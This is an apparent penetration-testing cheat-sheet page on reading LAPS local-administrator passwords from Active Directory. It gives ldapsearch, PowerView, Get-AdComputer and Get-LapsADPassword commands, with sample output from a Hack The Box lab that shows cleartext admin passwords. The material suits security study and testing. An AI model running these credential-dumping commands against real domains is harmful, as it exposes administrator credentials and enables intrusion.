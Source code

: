 ```yaml
---
title: "ReadLAPSPassword"
date: 2025-7-25
tags: ["Credential Dumping", "Powerview", "ReadLAPSpassword", "Active Directory", "Windows", "LAPS"]
---
```


### Abuse #1: Read LAPS Password

{{< tab set1 tab1 >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
ldapsearch -H ldap://<TARGET> -b 'DC=<EXAMPLE>,DC=<COM>' -x -D <USER>@<DOMAIN> -w '<PASSWORD>' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```

```console {class="sample-code"}
$ ldapsearch -H ldap://10.10.10.240 -b 'DC=LicorDeBellota,DC=HTB' -x -D bob@LicorDeBellota.htb -w 'Test1234!@' '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=LicorDeBellota,DC=HTB> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# PIVOTAPI, Domain Controllers, LicorDeBellota.htb
dn: CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
ms-Mcs-AdmPwd: 2Vf5kP4Xvj5r605V616x

# search reference
ref: ldap://ForestDnsZones.LicorDeBellota.htb/DC=ForestDnsZones,DC=LicorDeBell
 ota,DC=htb

# search reference
ref: ldap://DomainDnsZones.LicorDeBellota.htb/DC=DomainDnsZones,DC=LicorDeBell
 ota,DC=htb

# search reference
ref: ldap://LicorDeBellota.htb/CN=Configuration,DC=LicorDeBellota,DC=htb

# search result
search: 2
result: 0 Success

# numResponses: 5
# numEntries: 1
# numReferences: 3
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\bob\Documents> . .\PowerView.ps1
```

#### 2. Create a Cred Object (Runas) \[Optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Read LAPS Password

```console
Get-DomainComputer <TARGET_COMPUTER> -Properties ms-Mcs-AdmPwd
```

```console
# Or activedirectory module
Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd -Credential $cred
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\bob\Documents> Get-AdComputer -Filter * -Properties ms-Mcs-AdmPwd 


DistinguishedName : CN=PIVOTAPI,OU=Domain Controllers,DC=LicorDeBellota,DC=htb
DNSHostName       : PivotAPI.LicorDeBellota.htb
Enabled           : True
ms-Mcs-AdmPwd     : 2Vf5kP4Xvj5r605V616x
Name              : PIVOTAPI
ObjectClass       : computer
ObjectGUID        : 98783674-e6a3-4d9e-87e3-efe5f31fabbf
SamAccountName    : PIVOTAPI$
SID               : S-1-5-21-842165252-2479896602-2762773115-1004
UserPrincipalName :

```

```console
# Or LAPS module
Get-LapsADPassword -Identity <TARGET_COMPUTER> -AsPlainText
```

```console {class="sample-code"}
PS C:\> Get-LapsADPassword -Identity SRV -AsPlainText
Get-LapsADPassword -Identity SRV -AsPlainText


ComputerName        : SRV
DistinguishedName   : CN=SRV,OU=Servers,DC=example,DC=com
Account             : Administrator
Password            : O5E@-)v$dXU67V
PasswordUpdateTime  : 8/6/2025 2:49:38 AM
ExpirationTimestamp : 9/5/2025 2:49:38 AM
Source              : EncryptedPassword
DecryptionStatus    : Success
AuthorizedDecryptor : TEA\Server Administration
```

{{< /tabcontent >}}
